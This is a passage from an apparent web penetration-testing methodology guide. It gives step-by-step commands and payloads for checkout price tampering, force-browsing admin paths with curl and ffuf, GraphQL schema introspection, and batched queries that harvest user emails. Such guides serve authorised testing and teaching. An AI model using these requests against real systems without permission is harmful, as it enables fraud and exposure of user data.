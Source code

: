 ### Step 8.4: Price Manipulation
```bash
# Intercept purchase request
POST /checkout HTTP/1.1
...
{"product_id": 1, "price": 100}

# Change price
{"product_id": 1, "price": 0.01}

# Or negative value
{"product_id": 1, "quantity": -1}
```

### Step 8.5: Force Browsing
```bash
# Try accessing admin pages directly
curl $TARGET/admin
curl $TARGET/admin/users
curl $TARGET/api/internal/config

# Enumerate with wordlist
ffuf -u $TARGET/FUZZ -w /usr/share/seclists/Discovery/Web-Content/admin-panels.txt
```

---

## 9. API & Modern Web {#9-api-modern-web}

### Step 9.1: GraphQL Exploitation

#### Introspection Query
```bash
# Enable introspection
curl -X POST $TARGET/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{__schema{types{name,fields{name}}}}"}'

# Use GraphQL Voyager (visual tool)
# Or automated tool:
git clone https://github.com/nikitastupin/clairvoyance
python3 clairvoyance.py -o schema.json $TARGET/graphql
```

#### Query Batching Attack
```json
[
  {"query": "{ user(id: 1) { email } }"},
  {"query": "{ user(id: 2) { email } }"},
  {"query": "{ user(id: 3) { email } }"}
]
```
